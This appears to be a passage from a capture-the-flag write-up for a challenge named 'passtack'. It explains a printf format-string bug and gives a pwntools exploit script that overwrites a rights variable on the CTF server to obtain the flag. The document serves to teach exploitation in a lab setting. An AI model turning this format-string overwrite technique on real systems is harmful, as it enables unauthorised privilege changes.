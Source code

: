 again a printf vulnerability, and a weird check of rights which takes no input, so what we can do here is we overwrite the rights variable through printf and solve the challenge, opeing the file in gdb get the address of rights variable

![image.png](/static/writeups/pass/5.png)

run this script on server and get the flag

```jsx
from pwn import *
context.log_level = "critical"
context.binary = ELF('./passtack')
p = remote('ctf.thecyberthesis.com', 32822 )
# p = process("./passtack")
p.sendline(b'G0oD_b0Y_15_th3_p455w0rd')
p.recvuntil(b'remarks?')	

def exec_fmt(payload):    
    p = remote('ctf.thecyberthesis.com' ,32822)
    # p = process("./passtack")
    p.sendline(b'G0oD_b0Y_15_th3_p455w0rd')
    p.recvuntil(b'remarks?')
    p.sendline(payload)
    p.recvline()
    # p.recvline()
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset #offset=16 (where our input is dropped)
payload = fmtstr_payload(offset, {0x404010 : 0x726f6f74})
print(payload)
p.sendline(payload)
p.recvline()
p.recvline()
p.recvline()
flag = p.recvall()

print("Flag: ", flag)
```

![image.png](/static/writeups/pass/6.png)